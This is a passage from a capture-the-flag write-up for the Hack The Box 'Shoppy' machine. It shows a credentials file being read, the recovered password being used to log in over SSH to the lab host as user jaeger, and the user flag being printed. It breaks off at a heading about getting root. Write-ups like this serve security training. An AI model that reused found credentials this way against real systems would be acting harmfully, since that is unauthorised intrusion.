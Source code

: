 ![/assets/images/htb-writeup-shoppy/info.png](/assets/images/htb-writeup-shoppy/info.png)

We have more credentials

```bash
❯ /usr/bin/cat creden.txt
username: jaeger
password: Sh0ppyBest@pp!
```

## Shell jaeger 

I can connect with ssh 

```bash
❯ ssh jaeger@10.10.11.180
The authenticity of host '10.10.11.180 (10.10.11.180)' can't be established.
ECDSA key fingerprint is SHA256:KoI81LeAk+ps7zoc1ru39Mg7srdxjzOb1UgmdW6T6kI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.180' (ECDSA) to the list of known hosts.
jaeger@10.10.11.180's password: Sh0ppyBest@pp!
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan 10 20:41:53 2023 from 10.10.14.9
manpath: can't set the locale; make sure $LC_* and $LANG are correct
jaeger@shoppy:~$ export TERM=xterm
jaeger@shoppy:~$ export SHELL=bash
jaeger@shoppy:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  ShoppyApp  Templates  Videos  shoppy_start.sh  user.txt
jaeger@shoppy:~$ cat user.txt 
ee767274d4b6558ca02c36fb23812540
jaeger@shoppy:~$
```
## Be root
